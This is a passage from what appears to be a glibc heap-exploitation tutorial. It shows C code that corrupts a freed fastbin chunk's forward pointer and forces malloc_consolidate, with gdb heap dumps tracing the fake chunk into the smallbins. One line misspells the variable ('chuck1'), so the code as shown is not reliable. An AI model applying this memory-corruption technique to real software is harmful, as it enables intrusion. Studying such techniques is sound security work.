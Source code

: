 ```

0184| 0x6020b8 --> 0x21 ('!')

0192| 0x6020c0 --> 0x0 

......

0352| 0x602160 --> 0x0 

0360| 0x602168 --> 0x20ea1

*/

free(chunk1);

chuck1[0]=0x602060;// modify the fd of chunk1

/*

gdb-peda $ heapinfo
(0x20)     fastbin[0]: 0x0

(0x30)     fastbin[1]: 0x0

(0x40)     fastbin[2]: 0x0

(0x50)     fastbin[3]: 0x602000 --> 0x602060 (size error (0x30)) --> 0x0

*/

malloc(5000);// malloc a  big chunk to trigger malloc consolidate

/*

gdb-peda $ heapinfo
(0x20)     fastbin[0]: 0x0

(0x30)     fastbin[1]: 0x0

(0x40)     fastbin[2]: 0x0

(0x50)     fastbin[3]: 0x0

(0x60)     fastbin[4]: 0x0

(0x70)     fastbin[5]: 0x0

(0x80)     fastbin[6]: 0x0

                  top: 0x6034f0 (size : 0x1fb10) 

       last_remainder: 0x0 (size : 0x0) 

            unsortbin: 0x0

(0x050)  smallbin[ 3]: 0x602000
(0x030)  smallbin[ 1]: 0x602060

*/

```
